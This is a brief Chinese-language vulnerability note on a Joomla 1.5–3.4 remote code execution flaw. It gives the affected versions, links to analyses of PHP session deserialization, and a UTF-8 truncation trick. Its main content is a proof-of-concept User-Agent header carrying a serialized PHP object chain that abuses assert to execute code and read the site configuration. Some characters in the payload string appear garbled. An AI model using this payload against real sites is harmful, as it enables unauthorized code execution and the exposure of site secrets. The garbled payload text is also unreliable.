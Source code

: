 # Joomla远程代码执行漏洞
## 影响范围
* `Joomla 1.5 to 3.4 all version`
## 分析
* [https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
* PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患[https://github.com/80vul/phpcodz/blob/master/research/pch-013.md](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)
* `利用'𝌆'(%F0%9D%8C%86)字符将utf-8的字段截断.`
## POC
```
User-Agent: 123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"ρhιτhσπpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}ð
```
